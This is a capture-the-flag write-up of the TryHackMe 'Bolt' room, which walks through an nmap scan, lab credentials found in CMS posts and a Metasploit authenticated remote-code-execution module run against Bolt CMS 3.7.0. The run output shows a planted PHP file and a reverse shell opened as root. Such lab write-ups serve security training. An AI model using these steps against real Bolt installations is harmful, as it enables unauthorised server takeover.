


# Bolt

[This room](https://tryhackme.com/room/bolt) is based on the [Bolt CMS](https://bolt.cm/) and also it explains how it can be exploited using Remote Code Execution. Rather than the manual method, we will be using Metasploit for exploitation and popping a shell.

So, let's begin by deploying our machine!

### Initial Foothold

We can find a default apache page when we access the machine's IP address. And even on viewing it's source-code, we do not find anything interesting. We can move on to the questions and see if they can guide us in some way to exploit the  machine.

1. ##### What port number has a web server with a CMS running?

To determine this, we'll need to run a nmap scan.

```
tester@kali:~/Desktop/GitHub/TryHackMe-Writeups/bolt$ nmap -A -T4 10.10.226.122
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-30 14:35 IST
Warning: 10.10.226.122 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.226.122
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
5221/tcp filtered 3exmp
8000/tcp open     http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Sun, 30 Aug 2020 09:05:50 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sun, 30 Aug 2020 09:05:50 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 826cf0
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 30 Aug 2020 09:05:50 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sun, 30 Aug 2020 09:05:50 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: acd060
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=8/30%Time=5F4B6BEF%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,28ED,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Sun,\x2030\x20Aug\x20
SF:2020\x2009:05:50\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Sun,\x2030\x20Aug\x202020\x2009:05:50
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x20acd060\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Sun,\x2030\x20Aug\x202020\x2009:
SF:05:50\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Sun,\x2030\x20Aug\x202020\x2009:05:50\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x20826cf0\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.10 seconds
```

From the nmap result, we can find the port number that we require for this answer.

2. ##### What is the username we can find in the CMS?

Now, that we know the port on whicn the CMS is running we can go and check it out by visiting `<ip_address>:<port_number>`.


Here, we can see a few articles written by the admin whose name is Jake. So, we can try to use the term `Jake` as the answer to the second question but it does not get accepted. Moving on, we can read the articles present on the website and find the username in one of them:



We can submit this username as the answer to the second question.

3. ##### What is the password we can find for the username?

Just like we found the username in last question, the password is also available in another article present on the website.



We can submit this password as the answer to the third question. 

4. ##### What version of the CMS is installed on the server? (Ex: Name 1.1.1)

Now that we have the credentials to access the CMS, we can login in to its console and find the version. But for that we need to figure out where the login page is located. The best way to figure out this is to run a google search for it.

The first link that we get in the results on searching for 'bolt login page' is its [documentation](https://docs.bolt.cm/3.7/manual/login) where we can find that the login page is located at `http://yourdomain.com/bolt`. We can try to visit the same `\bolt` path on our machine and try to login from there.


We can use the obtained username and password to login on the CMS tool. Once logged in, we can find the version at the lower left corner of the page.


Now, we can submit this version number as the anwer to the fourth question.

5. ##### There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

We can do a google search for this and check the [link](https://www.exploit-db.com/exploits/48296) that belongs to ExploitDB to get the EDB-ID. From the ExploitDB page we can obtain the EBD-ID and submit it as the answer to the fifth answer.

6. ##### Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

For this, we first need to start Metasploit and then search the relavent exploit.

```
tester@kali:~$ msfconsole 
msf5 > search bolt 3.7.1

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  auxiliary/dos/http/dell_openmanage_post       2004-02-26       normal     No     Dell OpenManage POST Request Heap Overflow (win32)
   1  exploit/multi/http/bolt_file_upload           2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability
   2  exploit/xxxx/xxxxxx/xxxx_xxxxxxxxxxxxx_xxx    2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   3  exploit/windows/http/ibm_tivoli_endpoint_bof  2011-05-31       good       No     IBM Tivoli Endpoint Manager POST Query Buffer Overflow


Interact with a module by name or index, for example use 3 or use exploit/windows/http/ibm_tivoli_endpoint_bof

msf5 > 
```

Here, we got the path of the exploit in Metasploit which we can submit as the answer to the sixth question.

7. ##### Set the **LHOST, LPORT, RHOST, USERNAME, PASSWORD** in msfconsole before running the exploit

```
msf5 > use 2
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts <machine_ip>
rhosts => <machine_ip>
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => <local_ip>
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
```

8. ##### Look for flag.txt inside the machine.

Now, we can run the exploit to gain access over the machine:

```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.91.135:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qqaq".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file jquscnny.php.
[+] Used token 657413b1d8e8b23c0fd47f76e8 to create vitopjnc.php.
[*] Attempting to execute the payload via "/files/vitopjnc.php?qqaq=`payload`"
[*] Command shell session 1 opened (10.8.91.135:4444 -> 10.10.59.229:39618) at 2020-08-30 15:51:24 +0530
[!] No response, may have executed a blocking payload!
[+] Deleted file vitopjnc.php.
[+] Reverted user profile back to original state.

whoami
root
find / -name flag.txt 2> /dev/null
/home/flag.txt
cat /home/flag.txt
```

It can be seen that we logged in directly as the `root`. Also, we can use the `find` command to search for the flag and then submit it to the final question.

With this we completed the room Bolt!

## Some Key Points to Take Away

1. Whenever exploiting a service, always read it's documentation for default paths and credentials.
2. Use Google, ExploitDB, AttackerKB, Rapid7 and other such websites to look for related CVE's.
